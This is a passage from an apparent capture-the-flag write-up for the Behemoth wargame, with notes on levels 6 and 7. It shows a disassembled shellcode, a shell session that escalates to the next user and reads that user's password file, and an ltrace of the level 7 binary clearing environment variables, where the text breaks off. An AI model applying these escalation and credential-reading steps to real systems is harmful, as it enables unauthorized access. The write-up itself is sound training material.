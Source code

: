 ```
shellcode:     file format elf32-i386


Disassembly of section .text:

08048060 <main>:
 8048060:       68 74 79 00 00          push   0x7974
 8048065:       68 6f 4b 69 74          push   0x74694b6f
 804806a:       68 48 65 6c 6c          push   0x6c6c6548
 804806f:       b8 04 00 00 00          mov    eax,0x4
 8048074:       bb 01 00 00 00          mov    ebx,0x1
 8048079:       89 e1                   mov    ecx,esp
 804807b:       ba 0a 00 00 00          mov    edx,0xa
 8048080:       cd 80                   int    0x80
 8048082:       b8 01 00 00 00          mov    eax,0x1
 8048087:       31 db                   xor    ebx,ebx
 8048089:       cd 80                   int    0x80
```
```
behemoth6@behemoth:/tmp/me2$ /behemoth/behemoth6
Correct.
$ whoami
behemoth7
$ cat /etc/behemoth_pass/behemoth7
baquoxuafo
```

Success!

## Level 7 ##

Last level!

The binary on its own doesn't seem to do much, but looking at its ```ltrace``` we can see that it erases all of the environment variables.
```
behemoth7@behemoth:/behemoth$ ./behemoth7
behemoth7@behemoth:/behemoth$ ltrace ./behemoth7
__libc_start_main(0x804852b, 1, 0xffffd784, 0x8048650 <unfinished ...>
strlen("LC_ALL=en_US.UTF-8")                                    = 18
memset(0xffffd8ae, '\0', 18)                                    = 0xffffd8ae
strlen("LS_COLORS=rs=0:di=01;34:ln=01;36"...)                   = 1467
memset(0xffffd8c1, '\0', 1467)                                  = 0xffffd8c1
strlen("SSH_CONNECTION=82.76.50.24 53472"...)                   = 50
memset(0xffffde7d, '\0', 50)                                    = 0xffffde7d
strlen("LANG=en_US.UTF-8")                                      = 16
memset(0xffffdeb0, '\0', 16)                                    = 0xffffdeb0
strlen("USER=behemoth7")                                        = 14
memset(0xffffdec1, '\0', 14)                                    = 0xffffdec1
strlen("PWD=/behemoth")                                         = 13
memset(0xffffded0, '\0', 13)                                    = 0xffffded0
strlen("HOME=/home/behemoth7")                                  = 20
memset(0xffffdede, '\0', 20)                                    = 0xffffdede
strlen("SSH_CLIENT=82.76.50.24 53472 22")                       = 31
memset(0xffffdef3, '\0', 31)                                    = 0xffffdef3
strlen("SSH_TTY=/dev/pts/1")                                    = 18
memset(0xffffdf13, '\0', 18)                                    = 0xffffdf13
strlen("MAIL=/var/mail/behemoth7")                              = 24
memset(0xffffdf26, '\0', 24)                                    = 0xffffdf26
strlen("TERM=st-256color")                                      = 16
memset(0xffffdf3f, '\0', 16)                                    = 0xffffdf3f
strlen("SHELL=/bin/bash")                                       = 15
memset(0xffffdf50, '\0', 15)                                    = 0xffffdf50
strlen("TMOUT=1800")                                            = 10
```